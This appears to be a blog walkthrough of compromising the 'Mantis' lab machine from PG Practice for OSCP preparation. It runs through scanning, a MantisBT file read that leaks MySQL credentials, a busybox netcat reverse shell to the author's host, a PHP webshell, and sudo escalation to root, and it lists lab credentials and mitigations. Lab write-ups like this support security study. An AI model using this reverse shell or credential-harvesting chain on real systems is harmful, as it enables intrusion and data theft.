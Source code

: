 ```yaml
---
title: Mantis
date: 2025-06-21
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Linux, MantisBT, mantis-install.php, arbitrary-file-read, MySQL, mantis-post-authentication, command-injection, pspy64 ] 
image: mantis.webp
media_subpath: /assets/img/posts/2025-06-21-mantis/
---
```


## Introduction

In this walkthrough, I worked on the **Mantis** intermediate Linux machine from PG Practice. The target hosted **Mantis Bug Tracker**, and while several public exploits failed initially, I discovered that **directory listing** was enabled under `/admin`. Leveraging this misconfiguration, I accessed the **MySQL configuration file** and retrieved database credentials. Using those, I extracted the **admin password** from the database and logged into the MantisBT web interface. With valid credentials, I exploited a known vulnerability to gain a **shell**. Post-exploitation enumeration using `pspy64` revealed **cleartext credentials** in a running process, which I used to **pivot** to the `mantis` user. This user had **sudo access to all commands**, allowing me to escalate to **root**.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 3306

Version - MariaDB 5.5.5-10.3.34

I don’t have credentials.

## Web

### Port 80

Version - Apache httpd 2.4.41 ((Ubuntu))

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

![image.png](image%203.png)

```bash
gobuster dir -u http://$IP:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -b 400,403,404
```

![image.png](image%204.png)

## Exploitation

![image.png](image%205.png)

Navigating to `bugtracker` I found `Mantis Bug Tracker`.

Searching for public exploits I found the following Unauthenticated RCE https://www.exploit-db.com/exploits/48818

But kept returning errors. I thought of doing this manually, and first decided to reset administrator password.

But it returns the following error:

![image.png](image%206.png)

I tried fuzzing `id` of administrator:

```bash
wfuzz --hl 53 -z range,0-999 http://192.168.165.204/bugtracker/verify.php?id=FUZZ&confirm_hash=
```

But nothing from here either.

```bash
gobuster dir -u http://$IP/bugtracker -w /usr/share/wordlists/dirb/common.txt -t 42 -b 400,403,404 -x .php
```

![image.png](image%207.png)

I found the version of the application digging in `doc` directory.

![image.png](image%208.png)

```bash
feroxbuster -u http://$IP/bugtracker/admin -w /usr/share/wordlists/dirb/common.txt -C 403,404,400
```

![image.png](image%209.png)

![image.png](image%2010.png)

I see that we can access directory under `admin` directory. I

![image.png](image%2011.png)

I found the following [exploit](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://mantisbt.org/bugs/view.php%3Fid%3D23173&ved=2ahUKEwj3hPjItoKOAxVczwIHHQqTAzYQFnoECBUQAQ&usg=AOvVaw3kxdBURO9Hn4icIusjNoVP).

![image.png](image%2012.png)

Using it I was able to read `/etc/passwd`. I am gonna try to read `MySQL` credentials which are possibly stored in `/var/www/html/bugtracker/config/config.inc.php`, as from directory enumeration of `config` directory.

![image.png](image%2013.png)

```bash
mysql -u root -p -h $IP --ssl=0
```

```sql
show databases;
use bugtracker;
show tables from bugtracker;
```

![image.png](image%2014.png)

```sql
show columns from mantis_user_table;
select username, realname, email, password, enabled from mantis_user_table;
```

![image.png](image%2015.png)

![image.png](image%2016.png)

After that I got access:

![image.png](image%2017.png)

I need to get a reverse shell and I found the [command execution](https://mantisbt.org/bugs/view.php?id=26091) exploit.

![image.png](image%2018.png)

it didn’t work.

This worked but died.

```bash
busybox nc 192.168.45.159 80 -e /bin/bash
```

Then I wrote `PHP` webshell to `config` directory.

![image.png](image%2019.png)

![image.png](image%2020.png)

![image.png](image%2021.png)

I see `.sql` file this is related to `MySQL` and I think we don’t need to open it as we already enumerated database.

I cannot read `backup.sh` but it is very likely that it gets executed as cron job. Checking `crontab` and appropriate locations I don’t see anything.

```bash
ls -lah /etc/cron*
cat /etc/crontab
```

Let’s check if it gets executed by running [`pspy64`](https://github.com/DominicBreuker/pspy).

```bash
timeout 3m ./pspy64
```

![image.png](image%2022.png)

I suppose there are credentials for `mantis`.

## Shell as mantis

```bash
sudo -l
```

![image.png](image%2023.png)

We are root.

```bash
sudo su
```

![image.png](image%2024.png)

## Credentials

```bash
root:SuperSequelPassword
Administrator:prayingmantis
mantis:BugTracker007
```

## Mitigation

- Disable **directory listing** in the web server configuration to prevent unintended file disclosure.
- Store **secrets and credentials** in environment variables or protected vaults, not in config files or processes.
- Regularly **rotate passwords** and avoid reusing them across services.
- Apply all **security updates and patches** to web applications like MantisBT.
- Limit **sudo privileges** to only required commands and users, and audit them frequently.
